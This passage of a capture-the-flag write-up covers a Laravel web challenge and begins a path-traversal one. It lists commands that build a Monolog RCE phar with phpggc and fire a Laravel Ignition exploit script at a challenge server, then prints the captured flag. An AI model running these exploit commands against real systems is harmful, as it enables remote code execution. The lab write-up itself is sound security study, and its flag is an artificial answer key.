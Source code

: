 ![](./assets/web/Daas-ls2.png)

Running 
* php -d'phar.readonly=0' ../phpggc/./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system 'cat ../../flagXQKL8'
* pyhon3 laravel-ignition-rce.py http://139.59.174.238:30253/ /tmp/exploit.phar

![](./assets/web/Daas-flag.png)

Flag: **CHTB{wh3n_7h3_d3bu663r_7urn5_4641n57_7h3_d3bu6633}**

## MiniSTRyplace

**Solution:** 
From the source code, we can see that the php code is replacing `../`
![](assets/web/ministry-source.png)
